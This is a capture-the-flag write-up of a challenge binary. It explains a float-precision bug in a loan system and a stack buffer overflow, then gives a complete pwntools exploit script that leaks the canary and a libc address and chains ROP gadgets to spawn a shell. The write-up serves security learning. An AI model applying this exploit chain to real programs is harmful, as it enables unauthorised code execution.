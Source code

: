 ## Table of Contents
- [Audit/no-name minor](#Auditno-name-minor)

# Audit/no-name minor

This was a challenge similar to the one I created for Battle of Hackers 2024 so we solved it relatively fast. The challenge provides us with a binary that presents a menu that allows the user to borrow a loan, repay the loan, mining for money, buy a name and change name. 

![image](https://github.com/user-attachments/assets/90df0d94-6313-47c3-98f0-9376ca855de0)

The goal is to get a name. But 

- To buy a name, you need to have money.
- To have money you cannot simply mine, cause it will take a lot of time.
- So you need to loan and then repay them.

The vulnerability lies in the way the program keeps track of the user's loan.

<details>
<summary>Source Code</summary>

```c
// Miner struct
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

// Loan function
void loan(struct MinerAccount *account) {
	uint32_t amount = 0;
    
	printf("How much loan would you like to request?\n");
	if(scanf("%d", &amount) != 1) {
    	printf("Invalid input\n");
    	return;
	}
    
	if(account->debt_balance + amount > MAX_LOAN) {
    	printf("Loan limit exceeded\n");
    	return;
	}

	account->cash += amount;
	account->debt_balance += amount;

	printf("Current cash: $%.2f\n", account->cash);
	printf("Debt balance: $%.2f\n", account->debt_balance);
}
```
</details>

The user's loan is defined as a float, which can be subjected to **floating point inaccuracy.**  A float is 32 bit and it has 1 bit for sign, 23 bit for mantissa and 8 bit for exponent. For integers, the inaccuracy starts at 2^24 (16,777,216). In other words, all integers can be represented as floats up to 2^24 but not beyond that. Specifically, in the range of 2^24 to 2^25, float does not support odd numbers, only even numbers.

<details>
<summary>Proof of Concept</summary>

### Proof of Concept

![image](https://github.com/user-attachments/assets/e75708b0-e383-4faa-bb98-5bbff0919289)

Heres a simple C program that demonstrates this

![image](https://github.com/user-attachments/assets/592a968a-5ee3-4b0d-a6b0-281de6eae7fa)

This is the output

</details>

### Exploiting the Program

Now, we just need to borrow money until 16777216, buy the name, and borrow loan of size $1 until we eventually are able to repay our loan.

![image](https://github.com/user-attachments/assets/ad4d18bc-c5af-45d3-b630-8f4067bb0321)

Buying the name

![image](https://github.com/user-attachments/assets/318be9bc-d5d2-419d-a6cb-637534776cb4)

After borrowing $1

### Buffer Overflow

<details>
<summary>Source Code</summary>

```c
#define MAX_BUF 0x200
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

void change_name(struct MinerAccount *account) {
	if (has_name_rights != 1) {
    	printf("You do not have the right to change your name.\n");
    	printf("Please purchase a name to gain the rights to rename your no-name.\n");
    	return;
	}
	if(account->debt_balance != 0) {
    	printf("You still have debts to repay.\n");
    	printf("Pay off your debts to rename your no-name.\n");
    	return;
	}
	printf("Enter new name.\n");
	read(0, account->name, MAX_BUF);

	printf("Name updated successfully.\n");
}

int main() {
	initialize();
	srand(time(NULL));
	struct MinerAccount account = {0, 0, 0, "no-name"};
	while(1) {
    	int choice;
    	printf("===========================\n");
    	printf("Welcome to %s\n", account.name);
    	printf("Current cash: $%.2f\n", account.cash);
    	printf("Debt balance: $%.2f\n", account.debt_balance);
    	printf("===========================\n");

    	printf("1. Loan\n2. Repayment\n3. Mining\n4. Buy Name\n5. Change Name\n6. Exit\nChoose an action.\n");
    	scanf("%d", &choice);
    	switch(choice) {
        	case 1:
            	loan(&account);
            	break;
        	case 2:
            	repayment(&account);
            	break;
        	case 3:
            	mining(&account);
            	break;
        	case 4:
            	buy_name(&account);
            	break;
        	case 5:
            	change_name(&account);
            	break;
        	case 6:
            	return 0;
        	default:
            	printf("Invalid choice\n");
            	break;
    	}
	}
	return 0;
}
```
</details>

The name in MinerAccount object was assigned to only 0x20 size, but in change_name function we can change up until 0x200. With the help of the printf() in main, we are able to leak the stack canary and libc address after overwriting enough bytes using read(). Putting it all together, we get 

1) We loan 16777216 money
2) Then we buy name so our money no 16777216 - 1337
3) Then if we loan 1 dollar each time, our cash increase, but debt stays the same. So we loan 1 dollar for 1337 times
4) Then can repay all debt
5) Now start the leaking process through name
6) Leak canary
7) Leak libc_start_main address
8) Proceed will rop chain to system

<details>
<summary>Exploit Script</summary>

```py
from pwn import *

exe = './prob'
elf = context.binary = ELF(exe, checksec = False)
io = elf.process()

context.log_level = 'info'

#---------------------------------------------------------------------
sleep(1)
#io.recvuntil(b'Choose an action.\n')
io.sendline(b'1')
#io.recvuntil(b'How much loan would you like to request?\n')
io.sendline(b'16777216')

#io.recvuntil(b'Choose an action.\n')
io.sendline(b'4')


for i in range(1337):
#	io.recvuntil(b'Choose an action.\n')
	io.sendline(b'1')
#	io.recvuntil(b'How much loan would you like to request?\n')
	io.sendline(b'1')

io.recvuntil(b'Choose an action.\n')
io.sendline(b'2')
io.recvuntil(b'How much would you like to repay?\n')
io.sendline(b'16777216')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*44)

io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
canary = io.recv(7).strip()
canary = b'\x00'+canary
canary = unpack(canary)
info(f'Canary: {hex(canary)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*59)
io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
libc_add = unpack(io.recv(6).strip().ljust(8,b'\x00'))
info(f'libc leaked : {hex(libc_add)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')

libc = ELF('./libc.so.6')
libc.address = libc_add-0x29d90
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*44
payload += p64(canary)
payload += b'A'*8
payload += p64(libc.address + 0x0000000000029cd6)
payload += rop.chain()
io.sendline(payload)

#--------------------------------------------------------------------
io.interactive()
```
</details>

# Rev/CS1338: Script Programming
